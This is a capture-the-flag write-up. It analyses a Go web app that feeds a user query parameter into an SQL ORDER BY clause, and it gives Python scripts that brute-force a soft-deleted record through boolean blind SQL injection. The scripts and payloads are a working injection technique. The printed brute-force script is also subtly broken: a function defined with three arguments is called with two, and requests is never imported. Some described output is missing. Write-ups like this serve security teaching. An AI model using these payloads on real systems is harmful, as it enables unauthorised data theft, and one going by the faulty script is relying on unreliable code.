

## Introduction



Another website, another pictures list, this time it is an album cover list. and the description says that an album was deleted by mistake, so we need to find it.
And we get the source code, which is written in Golang.

## Analysis

Analysing the Code

```go
package main

import (
	"fmt"
	"net/http"

	"github.com/gin-gonic/gin"
	"gorm.io/driver/sqlite"
	"gorm.io/gorm"
)

// define a schema for Cover using GORM Library
type Cover struct {
	gorm.Model
	Url   string `json:"url"`
	Label string `json:"label"`
	gorm.DeletedAt // this is a soft delete
}

func main() {
    // connect to an SQLite database
	db, err := gorm.Open(sqlite.Open("covers.db"), &gorm.Config{})
	if err != nil {
		panic("failed to connect database")
	}

	db.AutoMigrate(&Cover{})

    // create a gin router
	r := gin.Default()
	r.LoadHTMLGlob("templates/*.html")


    // an endpoint that's routed to "/"
	r.GET("/", func(c *gin.Context) {

        // get the query parameter "q" from the url
		q := c.DefaultQuery("q", "1")
		var covers []Cover

        // find all the covers, ordered by the query parameter "q"
		db.Order(q).Find(&covers)

        // render the index.html template with the covers
		c.HTML(http.StatusOK, "index.html", gin.H{
			"covers": covers,
		})
	})
	r.Run()
}
```

Two things to note here, the first is that there's a soft delete, which means that the deleted covers are not actually deleted from the database, but they are marked as deleted with the "deleted_at" field name. The second thing is that the only interaction with the database is through the "q" query parameter, which is used to order the covers. So we need to find a way to order the covers by the "deleted_at" field.

## Exploitation

Looking at the task title "Blinding Lights", and seeing that we can control what to put in an order by value, this looks like a Blind SQL Injection. So we need to find a way to order by the "deleted_at" field.

A basic Blind SQL Injection method is by trying to make the database inform me about an information that I want, either time based or error based, os something similar.

Our query to find `select label from covers where deleted_at is not null`.
I aimed to use `Limit` with a function that returns either 1 (true) or 0 (false) to try to test all the testcases.

First step is to find the length of the label, so we can test a testcase with the query `1 limit (select CASE WHEN (select length(label) from covers where deleted_at is not null) == 10 THEN 1 ELSE 0 END)` which returns 1 if the length is 10, and 0 otherwise.

this way makes it easier for me to test, since limiting by 1 will mean there will be an image in the index.html, and limiting by 0 will mean there will be no image in the index.html.

So I wrote a script to test all the testcases:
```python

base_url = "https://blinding-lights.onrender.com/?q="

# generate the payload for the length
def get_length_payload(n):
    return "1 limit (select CASE WHEN (select length(label) from covers where deleted_at is not null) == "+n+" THEN 1 ELSE 0 END)"

def get_length():
    i = 1
    while True:
        url = base_url+get_length_payload(str(i))
        print(url)
        r = requests.get(url)
        # if there's an image, then the length is i (the condition is true)
        if "img" in r.text:
            return i
        print("Testing length: "+str(i))
        i += 1

get_length()

# 8
```

Our lost Album Cover has an 8 characters label. Now we need to find the label itself.
We can bruteforce the label by trying all the characters, and checking if the condition is true or not.

```python

base_url = "https://blinding-lights.onrender.com/?q="
all_chars = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ:=/? ."

def get_payload(target, n, c):
    return "1 limit (select CASE WHEN (select substring(label, "+n+", 1) from covers where deleted_at is not null) == '"+c+"' THEN 1 ELSE 0 END)"

def get_text(l):
    text = ""

    for i in range(l):
        for c in all_chars:
            url = base_url + get_payload(str(i+1), c)
            print(url)
            r = requests.get(url)
            if "img" in r.text:
                text += c
                print("Found char: "+c)
                break

    return text

get_text(8)

# Her Loss
```

So the label is "Her Loss", yet it is not the flag. Although we know that there's a url field alongside the label, so we try to redo the same process. to end up with the value **"t.ly/TIcqC"**

Downloading the image, we get this content:


## Conclusion

The Golang language was the first thing a player would interfere, and I gotta say this language is rising in popularity, and it is a good language to learn, and how to use it to create a web server with `Gin`. and interacting with Databases with The `GORM` library. Mixing this with a typical Blind SQL Injection Scenario, and The Soft Delete Concept, I hope it was an interesting task.

## Flag
> `ENIT{TH1s_dE1EETe_WASNt_s0ft_4fAll}`